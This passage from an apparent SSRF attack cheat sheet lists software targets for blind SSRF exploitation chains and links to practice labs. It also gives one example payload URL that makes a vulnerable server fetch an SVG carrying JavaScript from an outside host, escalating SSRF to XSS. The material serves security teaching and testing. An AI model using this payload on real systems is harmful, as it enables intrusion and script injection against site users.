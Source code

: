 **Possible via HTTP(s)**:

* [Elasticsearch](https://github.com/assetnote/blind-ssrf-chains#elasticsearch)
* [Weblogic](https://github.com/assetnote/blind-ssrf-chains#weblogic)
* [Hashicorp Consul](https://github.com/assetnote/blind-ssrf-chains#consul)
* [Shellshock](https://github.com/assetnote/blind-ssrf-chains#shellshock)
* [Apache Druid](https://github.com/assetnote/blind-ssrf-chains#druid)
* [Apache Solr](https://github.com/assetnote/blind-ssrf-chains#solr)
* [PeopleSoft](https://github.com/assetnote/blind-ssrf-chains#peoplesoft)
* [Apache Struts](https://github.com/assetnote/blind-ssrf-chains#struts)
* [JBoss](https://github.com/assetnote/blind-ssrf-chains#jboss)
* [Confluence](https://github.com/assetnote/blind-ssrf-chains#confluence)
* [Jira](https://github.com/assetnote/blind-ssrf-chains#jira)
* [Other Atlassian Products](https://github.com/assetnote/blind-ssrf-chains#atlassian-products)
* [OpenTSDB](https://github.com/assetnote/blind-ssrf-chains#opentsdb)
* [Jenkins](https://github.com/assetnote/blind-ssrf-chains#jenkins)
* [Hystrix Dashboard](https://github.com/assetnote/blind-ssrf-chains#hystrix)
* [W3 Total Cache](https://github.com/assetnote/blind-ssrf-chains#w3)
* [Docker](https://github.com/assetnote/blind-ssrf-chains#docker)
* [Gitlab Prometheus Redis Exporter](https://github.com/assetnote/blind-ssrf-chains#redisexporter)

**Possible via Gopher**:

* [Redis](https://github.com/assetnote/blind-ssrf-chains#redis)
* [Memcache](https://github.com/assetnote/blind-ssrf-chains#memcache)
* [Apache Tomcat](https://github.com/assetnote/blind-ssrf-chains#tomcat)

## Upgrade to XSS

When the SSRF doesn't have any critical impact, the network is segmented and you can't reach other machine, the SSRF doesn't allow you to exfiltrate files from the server.

You can try to upgrade the SSRF to an XSS, by including an SVG file containing Javascript code.

```bash
https://example.com/ssrf.php?url=http://brutelogic.com.br/poc.svg
```

## Labs

* [PortSwigger - Basic SSRF against the local server](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)
* [PortSwigger - Basic SSRF against another back-end system](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)
* [PortSwigger - SSRF with blacklist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)
* [PortSwigger - SSRF with whitelist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter)
* [PortSwigger - SSRF with filter bypass via open redirection vulnerability](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)
* [Root Me - Server Side Request Forgery](https://www.root-me.org/en/Challenges/Web-Server/Server-Side-Request-Forgery)
* [Root Me - Nginx - SSRF Misconfiguration](https://www.root-me.org/en/Challenges/Web-Server/Nginx-SSRF-Misconfiguration)
